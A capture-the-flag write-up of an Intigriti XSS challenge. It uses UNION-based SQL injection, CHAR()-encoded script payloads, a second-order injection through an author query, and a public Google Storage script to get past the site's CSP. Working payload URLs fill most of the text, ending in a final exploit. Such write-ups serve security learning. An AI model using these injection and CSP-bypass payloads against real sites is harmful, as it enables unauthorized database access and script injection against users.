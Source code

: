 XSS via SQL Injection by bypassing the csp

+ payload: https://challenge-0722.intigriti.io/challenge/challenge.php?month=0+or+1=1+--
+ to find the number of columns using union: https://challenge-0722.intigriti.io/challenge/challenge.php?month=0+union+select+1,2,3,4,5--
there are 5 columns.
![image](https://github.com/av4nth1ka/Intigriti-XSS-challenges/assets/80388135/1863cbe3-62da-4906-8063-e2d36827235e)
+ we can see that 2,3 and 5th column is getting reflected. giving xss alert payloads in those places still dont give us a popup.
+ even simple strings dont work. so there are a lot of string functions in mysql
  https://dev.mysql.com/doc/refman/8.0/en/string-functions.html#function_char
+ lets try using those char() function and see if its getting reflected or not.
  payload: https://challenge-0722.intigriti.io/challenge/challenge.php?month=0+union+select+1,CHAR(77,121,83,81),3,4,5--
  ![image](https://github.com/av4nth1ka/Intigriti-XSS-challenges/assets/80388135/f54f7963-a1cc-4c1c-a8ae-c93201194ec7)
+ Lets try giving our xss payload inside this char() function and see if it works as intended.
  payload: https://challenge-0722.intigriti.io/challenge/challenge.php?month=0+union+select+1,CHAR(60,115,99,114,105,112,116,62,97,108,101,114,116,40,48,41,60,47,115,99,114,105,112,116,62),3,4,5--
  ![image](https://github.com/av4nth1ka/Intigriti-XSS-challenges/assets/80388135/50d84b61-4a3f-45bc-a9e0-e5dc1f51c51c)
  ![image](https://github.com/av4nth1ka/Intigriti-XSS-challenges/assets/80388135/3b671c7f-1b30-4b58-a46f-b9bac172de01)
  In the response we can see that even though the payload got reflected,  it appears that certain characters are filtered to prevent cross-site scripting.
+ Note: when we set the fourth column to 1 or 2, it changes the author between Anton and jake.
+ It’s possible that the author_id is being used in a later query to get the author’s name, hence this observed behaviour. And since we’ve already observed a SQL injection, it’s quite likely this further query isn’t properly parameterised either, and also vulnerable to injection.
So if we can cause the first query to return some malicious content for the author_id column, we can cause an injection into the second query.
+ the query can be something like this:SELECT id, name FROM authors WHERE id = 999 UNION SELECT 1,2;--
+ Script payload:
`<script>alert(document.domain)</script>`
+
Author payload:
999 UNION SELECT 1,CHAR(60,115,99,114,105,112,116,62,97,108,101,114,116,40,100,111,99,117,109,101,110,116,46,100,111,109,97,105,110,41,60,47,115,99,114,105,112,116,62),3
+
Initial payload:
999 UNION SELECT 1,2,3,CHAR(57,57,57,32,85,78,73,79,78,32,83,69,76,69,67,84,32,49,44,67,72,65,82,40,54,48,44,49,49,53,44,57,57,44,49,49,52,44,49,48,53,44,49,49,50,44,49,49,54,44,54,50,44,57,55,44,49,48,56,44,49,48,49,44,49,49,52,44,49,49,54,44,52,48,44,49,48,48,44,49,49,49,44,57,57,44,49,49,55,44,49,48,57,44,49,48,49,44,49,49,48,44,49,49,54,44,52,54,44,49,48,48,44,49,49,49,44,49,48,57,44,57,55,44,49,48,53,44,49,49,48,44,52,49,44,54,48,44,52,55,44,49,49,53,44,57,57,44,49,49,52,44,49,48,53,44,49,49,50,44,49,49,54,44,54,50,41,44,51),5;--
+ But we get a csp error.
+ `Content-Security-Policy:
default-src 'self' *.googleapis.com *.gstatic.com *.cloudflare.com`
+  it specifies that the only scripts that can run are those loaded from the origin, or from the three wildcarded domains
+  he *.googleapis.com domain is used to access public Google Storage buckets.
+   create a bucket using GCP, and add a simple javascript file (x.js) with the content:
`alert(document.domain)`
+ Setting it to public access, it becomes available at https://storage.googleapis.com/xssliamg/x.js, which matches the *.googleapis.com part of the CSP whitelist!
+ So, we now want to render the following HTML:

`<script src="https://storage.googleapis.com/xssliamg/x.js"></script>`
Final payload: `https://challenge-0722.intigriti.io/challenge/challenge.php?month=999%20UNION%20SELECT%201,2,3,CHAR(57,57,57,32,85,78,73,79,78,32,83,69,76,69,67,84,32,49,44,67,72,65,82,40,54,48,44,49,49,53,44,57,57,44,49,49,52,44,49,48,53,44,49,49,50,44,49,49,54,44,51,50,44,49,49,53,44,49,49,52,44,57,57,44,54,49,44,51,52,44,49,48,52,44,49,49,54,44,49,49,54,44,49,49,50,44,49,49,53,44,53,56,44,52,55,44,52,55,44,49,49,53,44,49,49,54,44,49,49,49,44,49,49,52,44,57,55,44,49,48,51,44,49,48,49,44,52,54,44,49,48,51,44,49,49,49,44,49,49,49,44,49,48,51,44,49,48,56,44,49,48,49,44,57,55,44,49,49,50,44,49,48,53,44,49,49,53,44,52,54,44,57,57,44,49,49,49,44,49,48,57,44,52,55,44,49,50,48,44,49,49,53,44,49,49,53,44,49,48,56,44,49,48,53,44,57,55,44,49,48,57,44,49,48,51,44,52,55,44,49,50,48,44,52,54,44,49,48,54,44,49,49,53,44,51,52,44,54,50,44,54,48,44,52,55,44,49,49,53,44,57,57,44,49,49,52,44,49,48,53,44,49,49,50,44,49,49,54,44,54,50,41,44,51),5;--`
And yes we get the xss!


